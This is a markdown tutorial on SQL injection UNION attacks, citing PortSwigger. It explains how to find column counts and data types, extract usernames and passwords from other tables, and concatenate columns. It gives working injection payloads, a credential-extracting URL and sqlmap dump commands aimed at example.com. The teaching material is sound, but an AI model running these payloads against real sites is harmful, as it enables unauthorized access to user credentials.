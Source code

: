 ```yaml
---
title: UNION Attack
description: Introduction of UNION attack in SQL injection.
date: 2025-10-12
weight: 2
---
```


## `UNION` Syntax

In SQL, `UNION` is used to execute one or more additional `SELECT` queries and append results to the original query.

For example:

```sql
SELECT product, date FROM products UNION SELECT username, password FROM users
```

## Requirements of `UNION`

There are two requirements of `UNION` queries.

1. The individual queries must return the same number of columns.
2. Data types in each column must be compatible between the individual queries.

### The Same Number of Columns

The first requirement means the following statement is available

```sql
SELECT product, date FROM products UNION SELECT username, password FROM users
```

while the following one is unavailable:

```sql
SELECT product, date FROM products UNION SELECT username, password, email FROM users
```

Because the previous `SELECT` queries two columns while the later one queries three columns.

### Compatible Data Types

Suppose that `product` and `user` table have the following structures:

```text
Table product:

+-------------+----------+
| Field       | Type     |
+-------------+----------+
| id          | int      |
| name        | char(35) |
+-------------+----------+
```

```text
Table user:

+-------------+----------+
| Field       | Type     |
+-------------+----------+
| email       | char(30) |
| username    | char(35) |
+-------------+----------+
```

Then the following query will be unavailable:

```sql
SELECT id, name FROM product UNION SELECT email, username FROM user
```

Because the data types of `id` and `email` is not compatible.

## Determine Columns of Original Query

### Use `ORDER BY`

If the original query is

```sql
SELECT name, age, email FROM user WHERE name = '${user-input}'
```

Then the payload can be

- `' ORDER BY 1--`
- `' ORDER BY 2--`
- `' ORDER BY 3--`
- `' ORDER BY 4--`
- ...

The statement `ORDER BY n` means sort the result of query by column `n`. For example, the following query means sort results by `name`, which is the first column.

```sql
SELECT name, age, email FROM user WHERE name = '' ORDER BY 1--
```

When `n` is `4`, the query will be invalid because `n` is out of range $[1, 3]$, which will cause an exception in the query and the attacker can find out the number of columns.

### Use `UNION`

`UNION` requires two `SELECT` statements query the same number of columns, enabling attackers to determine how many columns are in the original query.

Suppose that the original query is

```sql
SELECT name, age FROM customer WHERE name = '${user-input}'
```

Then attackers can submit:

```sql
' UNION SELECT NULL--
```

Then the query will be

```sql
SELECT name, age FROM customer WHERE name = '' UNION SELECT NULL--
```

However, the numbers of columns are different. So the query will return an exception, and the attacker can continue to try other numbers of columns until the query is valid. For example:

- `' UNION SELECT NULL, NULL--`
- `' UNION SELECT NULL, NULL, NULL--`
- ...

This process can be done easily by using `sqlmap`.

If there is a URL with this vulnerability, like `https://example.com?id=1`, then we can use the following command to find out the column number of the original query:

```bash
sqlmap -u 'https://example.com?id=1' --technique=U
```

The argument `--technique=U` tells `sqlmap` to use `UNION` attack method only. By default, the range of columns is from 1 to 10. To modify the range, for example, to `12-16`, the command can be changed to

```bash
sqlmap -u 'https://example.com?id=1' --technique=U --union-cols=12-16
```

## Determine Data Types

After determining the number of columns, it is possible to determine the data type by using the second requirement of `UNION`.

The payload can be

- `' UNION SELECT 'a', NULL--`
- `' UNION SELECT NULL, 'a'--`

By analyzing the response, the data type of the specified column can be identified.

This process can also be done automatically by using `sqlmap`.

Suppose that `https://example.com?id=1` has this vulnerability, and the target database and table are `public` and `users` respectively, then the command may be:

```bash
sqlmap -u 'https://example.com?id=1' --technique=U --columns -D public -T users
```

The output may look like:

```text
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | varchar |
| password | varchar |
| username | varchar |
+----------+---------+
```

## Retrieve Data of Other Tables

If a database has two tables `products` and `users`, and the website only allows query of `products` but with `UNION` SQL injection vulnerability, then we can use `UNION` to retrieve data from other tables.

If the URL is `https://example.com?id=1`, and the backend query is `SELECT id, name FROM products WHERE id = '${user-input}'`, then the `UNION` attack is possible to retrieve data from table `users` which contains two columns `username` and `password`.

The payload may be:

```url
https://example.com?id=1'+UNION+SELECT+username,+password+FROM+users--
```

Finally, the query in backend would be:

```sql
SELECT id, name FROM products WHERE id = '' UNION SELECT username, password FROM users--
```

Then the response will contain username and password information.

Also, this can be done by `sqlmap` automatically.

```bash
sqlmap -u 'https://example.com?id=1' --technique=U --dump -D public -T users
```

The output may look like:

```text
+-------+----------------------+---------------+
| email | password             | username      |
+-------+----------------------+---------------+
| NULL  | xqgqdaavmjdpn00ow03v | administrator |
| NULL  | stroi00dlirh21fagfcn | wiener        |
| NULL  | cdjms5njz9s30ahkzzb3 | carlos        |
+-------+----------------------+---------------+
```

## Retrieve Multiple Values Within a Single Column

If the original query statement only queries one column, like:

```sql
SELECT name FROM products WHERE id = '${user-input}'
```

And we want to retrieve two columns `username` and `password` from table `users`, then we can concatenate these two columns into one. For example, on `PostgreSQL`, we can use the following payload:

```sql
' UNION SELECT username || '~' || password FROM users--
```

Then the backend query will be

```sql
SELECT name FROM products WHERE id = '' UNION SELECT username || '~' || password FROM users--
```

This is valid because SQL treats concatenation as one column.

## Reference

- [PortSwigger](https://portswigger.net/web-security/sql-injection/)
